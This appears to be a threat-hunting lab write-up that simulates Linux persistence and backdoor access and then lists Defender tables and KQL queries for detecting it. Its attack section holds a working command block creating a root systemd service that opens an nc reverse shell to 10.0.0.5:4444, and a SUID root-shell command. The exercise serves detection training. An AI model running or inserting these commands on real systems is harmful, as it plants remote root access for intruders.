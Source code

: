 # Threat Event (Persistence & Backdoor Access)

**Unauthorized Persistence Mechanisms & Backdoor Creation**

## Steps the "Bad Actor" took to Create Logs and IoCs:

1. Downloaded and installed a **malicious systemd service** to ensure the backdoor would automatically start on system reboot.
- The service was configured to run a reverse shell or malicious command to maintain access after rebooting the system.

```# Create a malicious systemd service that will ensure persistence by executing a reverse shell
echo '[Unit]
Description=Malicious Service
After=network.target

[Service]
ExecStart=/bin/bash -c "nc -e /bin/bash 10.0.0.5 4444"
Restart=always
User=root

[Install]
WantedBy=multi-user.target' > /etc/systemd/system/malicious.service

# Enable and start the malicious service
sudo systemctl enable malicious.service
sudo systemctl start malicious.service
```

2. Replaced the legitimate `ls` command with a Trojanized script located at `/home/baddog/.local/bin/ls`.
- This Trojanized script was designed to execute a reverse shell when invoked, providing continued access to the system without raising suspicion.
3. **Created a backdoor shell at `/tmp/rootbash`, set the **SUID permission** on the shell (`chmod u+s /tmp/rootbash`), and made it executable by any user.
- This backdoor shell was designed to escalate privileges and grant root access, regardless of the user executing

---

## Tables Used to Detect IoCs:

| **Parameter** | **Description** |
|--------------|----------------|
| **Name** | DeviceProcessEvents |
| **Info** | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table |
| **Purpose** | Used to detect execution of Trojanized commands, privilege escalation attempts, and service creation. |

| **Parameter** | **Description** |
|--------------|----------------|
| **Name** | DeviceFileEvents |
| **Info** | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table |
| **Purpose** | Used to detect the creation and modification of system files, including systemd services and backdoor binaries. |

| **Parameter** | **Description** |
|--------------|----------------|
| **Name** | DeviceLogonEvents |
| **Info** | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicelogonevents-table |
| **Purpose** | Used to detect unauthorized remote logins or unusual authentication patterns. |

---

## Related Queries:

```kql
// Detect execution of a Trojanized administrative command
DeviceProcessEvents
| where ProcessCommandLine contains "ls"
| project Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// Detect execution of a SUID backdoor shell
DeviceProcessEvents
| where ProcessCommandLine contains "rootbash"
| project Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// Detect potential unauthorized logins
DeviceLogonEvents
| where AccountName contains "root"
| where LogonType in ("RemoteInteractive", "Interactive")
| project Timestamp, DeviceName, AccountName, RemoteIP, LogonType
```

---

## Created By:
- **Author Name**: James Harrington
- **Author Contact**: https://www.linkedin.com/in/Goodk47
- **Date**: January 30, 2025

## Validated By:
- **Reviewer Name**:
- **Reviewer Contact**:
- **Validation Date**:

---

## Additional Notes:
**None**
